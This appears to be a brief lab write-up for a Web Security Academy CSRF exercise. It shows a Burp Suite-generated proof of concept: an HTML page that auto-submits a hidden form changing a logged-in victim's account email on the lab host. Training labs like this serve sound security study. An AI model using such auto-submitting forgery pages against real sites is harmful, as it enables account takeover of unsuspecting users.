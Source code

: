___

Engagement tools / Generate CSRF PoC

Enable the option to include an auto-submit script and click "Regenerate".
# CSRF vulnerability with no defenses

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a670050040a93f380ec30c9001f00b8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="dani@gmail.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```





